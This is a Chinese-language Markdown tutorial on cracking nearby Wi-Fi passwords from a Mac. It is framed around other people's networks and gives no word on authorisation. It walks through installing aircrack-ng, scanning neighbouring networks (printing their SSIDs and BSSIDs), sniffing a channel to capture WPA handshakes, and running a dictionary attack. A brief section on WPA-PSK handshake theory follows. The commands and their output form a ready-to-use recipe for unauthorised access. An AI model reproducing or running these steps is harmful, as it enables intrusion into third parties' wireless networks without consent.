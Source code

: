 > mac 系统破解附近wifi密码
> [参考](https://www.cnblogs.com/diligenceday/p/6344487.html)


第一步， 安装macport， 安装Xcode
---

安装`mac port macport` 是一个工具 管理软件包的一个工具，我们也可以通过别的方式安装Aircrack-ng，但是通过 macport 安装 `Aircrack-ng`的速度是最快的， （Mac系统要求安装Xcode, 可以参考macport的首页）

第二步， 安装aircrack-ng
----
	sudo port install aircrack-ng


第三步， 获取当前网卡
-----
	➜  ~ ifconfig                  
	en0: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
		ether 8c:85:90:31:d2:1f 
		inet6 fe80::1480:8b90:d8cd:fd0c%en0 prefixlen 64 secured scopeid 0x8 
		inet 192.168.1.109 netmask 0xffffff00 broadcast 192.168.1.255
		nd6 options=201<PERFORMNUD,DAD>
		media: autoselect
		status: active

第四步， 获取所有的无线网络
----

使用mac系统自带的airport工具， 查看当前的无线网络， 以及它们的相关信息，在shell中执行：

	sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s

　系统回显如下图， 以下为我附近所有的wifi， 注意看表格， `SSID， BSSID， CHANNEL`，这些关键词都会在后面提到：

    Password:
                                SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
                              ZHC527 34:96:72:1c:d5:1b -69  11,-1   Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                              jjjhhh 14:75:90:85:22:93 -53  11      N  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 
                                 XGD f0:b4:29:11:b9:3a -45  6       Y  CN WPA(PSK/TKIP,AES/TKIP) WPA2(PSK/TKIP,AES/TKIP) 
                HUAWEI-7R93AX_HiLink dc:72:9b:55:5a:5c -40  6,-1    Y  -- WPA2(PSK/AES/AES) 
      HP-Print-36-Officejet Pro 6830 34:64:a9:08:ab:36 -75  6       N  -- WPA2(PSK/AES/AES) 
                                LYWL 34:96:72:68:e8:75 -39  1,+1    Y  CN WPA(PSK/TKIP,AES/TKIP) WPA2(PSK/TKIP,AES/TKIP) 
                           JESQUARE1 70:3d:15:88:b6:d1 -68  1       Y  CN WPA2(PSK/AES/AES) 
                HUAWEI-7R93AX_HiLink dc:72:9b:55:5a:60 -60  149     Y  CN WPA2(PSK/AES/AES) 
                           JESQUARE3 70:3d:15:89:07:20 -64  48      Y  CN WPA2(PSK/AES/AES) 
                           JESQUARE2 70:3d:15:88:e5:a0 -80  161     Y  CN WPA2(PSK/AES/AES) 
                              XGD_5G f0:b4:29:11:b9:3b -64  157     Y  CN WPA(PSK/TKIP,AES/TKIP) WPA2(PSK/TKIP,AES/TKIP) 
                             LYWL_5G 34:96:72:68:e8:77 -48  157     Y  -- WPA(PSK/TKIP,AES/TKIP) WPA2(PSK/TKIP,AES/TKIP) 


第五步，开始抓包 ， 收集监听周围无线网络的数据
---

参数en0是我电脑的默认网卡， 数字 157 是网卡需要监听的网络频道:

    sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff 157

当执行以上命令， 开始监听以后， wifi的图标会发生改变， 变成一个小眼睛一样的图标

　　监听久一点， 然后使用ctrl+c停止监听， 系统会把监听到的数据保存到本地， 如下图， 数据保存到 `/tmp/airportSniff*.cap` 文件中：

    -rw-r--r--  1 root  wheel    23M Jun 27 11:51 /tmp/airportSniffWRo6o0.cap
    -rw-r--r--  1 root  wheel   4.6M Jun 27 11:45 /tmp/airportSniffcdoYAX.cap

在监听的过程中如果有用户登陆这个wifi， 那么包就会被我们截获， 如果用户一直没有登陆到这个wifi， 我们就还要继续等待监听， 尽量在手机或者手提电脑所用高峰期开启捕获， 这样捕获握手（handshake）的几率比较高， 具体原理参考最后的链接；

第六步， 查看cap文件中的数据是否被抓取到
----
    
    ➜  sudo aircrack-ng /tmp/airportSniffcdoYAX.cap                              
    Opening /tmp/airportSniffcdoYAX.cap
    Read 61020 packets.
    
       #  BSSID              ESSID                     Encryption
       1  64:F7:8C:01:50:DB                            WPA (0 handshake)
       2  34:96:72:68:E8:77  LYWL_5G                   WPA (1 handshake)
       3  F0:B4:29:11:B9:3B  XGD_5G                    No data - WEP or WPA
       ......

如果要查询的路由列表的 `Encryption值为WPA(1 handshake)` ，说明抓取成功， 否者跳到第六步，要重新抓取：

第七步， 输入命令air-crack开始破解
----

`-b` 后面的参数 `bc:46:99:df:6c:72`指的是网卡的`BSSID`， 最后面的一个文件路径是上一步监听到的数据

    sudo aircrack-ng -w dict.txt -b bc:46:99:df:6c:72 /tmp/airportSniffdaMCjH.cap
　　只要字典够大， 密码破出来应该指日可待， 字典可以自己去做，或者网上下载

　　能不能破解主要看脸， 看运气

　　破解成功以后，命令行会显示KEY FOUND

--------


WPA/WPA2简介
---
　　由于WEP中存在严重的安全漏洞，WIFI联盟制定了WPA和WPA2以取代WEP。其中WPA实现了802.11i的主要部分，提供了对现有硬件的向下兼容，被用来作为WEP到802.11i的过渡。之后的则WPA2完整的实现了整个IEEE 802.1i标准。
WPA的根据应用场景的不同采用不同的认证方式，其中面对家庭或小型办公场所网络的WPA-PSK不需要专门的认证服务器，所有该网络中的设备通过使用同一个256-bit的密钥来进行认证。


WPA-PSK安全漏洞
---
　　WPA-PSK认证中的四次握手被设计用来在不安全的信道中，通过明文传输的方式来进行一定程度上的认证，并且在设备之间建立安全信道。首先，PSK会被转化为PMK，而PMK则在接下来被用于生成PTK。PTK则会被分为若干部分，其中一部分被称作MIC Key，用来生成每一个包的Hash值来用于验证。
WPA的安全问题与其认证过程所使用的算法关系不大，更多的是由于这一过程可以被轻易的重现，这就使得WPA-PSK可能遭受字典暴力攻击。


WPA-PSK攻击原理
---
WPA-PSK攻击分为以下几个步骤：

　　1. 根据passphrase，SSID生成PMK，即PMK = pdkdf2_SHA1(passphrase, SSID, SSID length, 4096)

　　2. 捕获EAPOL四次握手的数据包，得到ANonce，SNonce等信息，用于计算PTK，即

    　　PTK = PRF-X(PMK, Len(PMK), “Pairwise key expansion”, Min(AA,SA) || Max(AA,SA) || Min(ANonce, SNonce) || Max(ANonce, SNonce))

　　3. 使用MIC Key计算EAPOL报文的MIC，即MIC = HMAC_MD5(MIC Key, 16, 802.1x data)

　　4. 将计算得到的MIC值与捕获到的MIC值对比，如果相同则破解成功。

WPA-PSK攻击难点
---
　　WPA-PSK攻击的主要难点在于大量计算PMK所需要的计算量。一台普通的计算机通常的计算能力在500pmks/s，想要对8位的纯小写字母组合密码进行暴力破解所需要的时间为14年，所以想要破解WPA－PSK只有两种可能：1.用户使用了常见的弱密码；2.堆砌计算资源，获得超级计算机量级的计算能力。


相关：
---
　　AP(Access Point): 网络接入点，是一种连接无线或有线网络的设备。就是俗称的路由器。

　　MAC(Media Access Control Address): 相当于网卡的身份证，MAC 地址本身是不能修改，但是可以通过伪造MAC 地址欺骗AP。

　　WEP(Wireless Encryption Protocol): 无线加密协议。很早的一种加密协议，容易破解。

　　WPA/WPA2(Wi-FiProtected Access): 基于WEP更安全的加密系统。

　　Handshake:握手。

　　IV(Initialization Vector)s:初始化向量。


参考：
----

[macport](https://www.macports.org/install.php)

[使用macbook破解WPA/WPA2 wifi密码](http://topspeedsnail.com/macbook-crack-wifi-with-wpa-wpa2/)

[WEP&WPA Cracking on BT5/MAC原理](http://blog.csdn.net/stoneliul/article/details/8836248)

